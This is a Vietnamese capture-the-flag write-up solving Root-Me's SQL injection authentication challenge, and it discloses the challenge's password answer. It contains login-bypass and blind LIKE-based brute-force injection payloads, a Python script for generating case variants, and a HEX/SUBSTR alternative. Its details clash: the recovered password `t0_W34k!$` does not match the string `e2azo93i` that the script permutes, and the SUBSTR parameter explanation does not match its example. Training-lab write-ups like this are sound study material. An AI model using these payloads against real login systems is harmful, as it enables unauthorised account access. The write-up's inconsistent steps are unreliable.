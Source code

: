 # SQL Injection - Authentication

**Tên challenge:** Authentication v 0.01

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

**Tác giả challenge:** g0uZ

**Mục tiêu challenge:** Retrieve the administrator password.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Login:

![alt text](./images/image.png)


**B2:** Ta thử đăng nhập với username là `admin` và password là `admin`

![alt text](./images/image-1.png)

Thông thường câu truy vấn liên quan đến chức năng Login sẽ có dạng:
```
SELECT username, password WHERE username = $username and password = $password;
```
**B3:** Do đó ta thử nhập input của `username` là `admin' -- a` và `password` thì tuỳ ý.

![alt text](./images/image-2.png)

=> Xem ra suy đoán của ta về câu truy vấn của Website đã đúng.

Nhưng yêu cầu của Challenge là ta phải lấy được `password`, chứ không phải là đăng nhập thành công. Vì vậy, bây giờ ta phải chèn câu truy vấn làm sao để tìm ra `password`.

Cách của tôi là mò từng ký tự trong `password` và ta sẽ dùng cú pháp `LIKE` trong SQL để làm được việc này:
```
SELECT * FROM users WHERE username LIKE 'a%';
```
**Giải thích:** Câu truy vấn trên sẽ trả về các kết quả có username bắt đầu bằng chữ `a` hoặc `A` ( Vì nó còn phụ thuộc vào Collation của cơ sở dữ liệu ). Nhưng với Challenge này thì khi ta sử dụng cách truy vấn tương tự thì Website sẽ cho cả ký tự in hoa hay in thường đều có thể đăng nhập thành công.

**B4:** Ta bắt đầu thử với brute-force ký tự đầu tiên trong `password` bằng cách nhập input của `username` là `admin' AND password LIKE 'a%' --`, và input của trường `password` thì tuỳ ý.

=> Kết quả sau khi Brute-force, ta tìm ra được ký tự: `t` hoặc `T` là ký tự đầu tiên trong `password`.

Sở dĩ, tôi nói như vậy là vì khi câu truy vấn thử tới hai ký tự này thì Website đều cho cả 2 đăng nhập thành công. Nhưng như vậy thì làm sao ta biết được `password` thật sự là gì ? Chút nữa tôi sẽ giải đáp

**B5:** Ta tiếp tục Brute-force đến ký tự thứ 2 trong `password`, vẫn là câu truy vấn đó nhưng chỉnh sửa 1 chút:
`admin' AND password LIKE 'Ta%' --` hoặc `admin' AND password LIKE 'ta%' --`

* **Giải thích:** Lúc này câu truy vấn sẽ tìm kết quả có `password` bắt đầu bằng 2 ký tự `Ta` hoặc `ta`

Tiếp tục đến khi ta không tìm được ký tự nào nữa trong cả quá trình Brute-force thì có nghĩa là ta đã đạt giới hạn độ dài của `password`.

=> Cuối cùng, ta sẽ thu được kết quả `password` Brute-force được là: `t0_W34k!$`

Và vì ta không biết được trong chuỗi `password` trên, ký tự nào in thường và ký tự nào in hoa nên ta sẽ dùng code python bên dưới để tìm ra tất cả các trường hợp ( từ [ `E2azo93i -> E2AZO93I` ]) có thể xảy ra của chuỗi trên.

```
from itertools import product

# Original string and the positions of characters that can vary in case
base_string = "e2azo93i"
case_positions = [0, 2, 3, 4, 7]  # Indices of the letters in base_string that can change case

# Generate all case combinations for the selected positions
variations = []
for combo in product((0, 1), repeat=len(case_positions)):
    # Convert base_string to a list to make it mutable
    temp_string = list(base_string)
    for i, toggle in enumerate(combo):
        # If toggle is 1, change the character to uppercase
        if toggle == 1:
            temp_string[case_positions[i]] = temp_string[case_positions[i]].upper()
    variations.append("".join(temp_string))

# Write to a file
output_file_path = "./variations.txt"
with open(output_file_path, "w") as file:
    file.write("\n".join(variations))
```
**B6:** Ta tiếp tục Brute-force `password` với file `variations.txt` vừa được tạo ra

=> Cuối cùng, ta thu được kết quả đúng là: `t0_W34k!$`.

<u>**Thông tin thêm:**</u> Sẽ có nhiều người thắc mắc là liệu có cú pháp nào khác ngoài `LIKE` để làm cho ra đúng ký tự của nó không ?
* Câu trả lời là có, đó là dùng dùng cú pháp `HEX(SUBSTR(password,1,1))=HEX('a')`
* Với:
    * **Tham số đầu tiên (password):** là chuỗi bạn muốn kiểm tra.
    * **Tham số thứ hai (2):** là vị trí bắt đầu (ở đây là ký tự thứ 2).
    * **Tham số thứ ba (1):** là độ dài của chuỗi con mà bạn muốn lấy (1 ký tự).

```
SELECT * FROM users WHERE HEX(SUBSTR(username, 1, 1)) = HEX('a');
```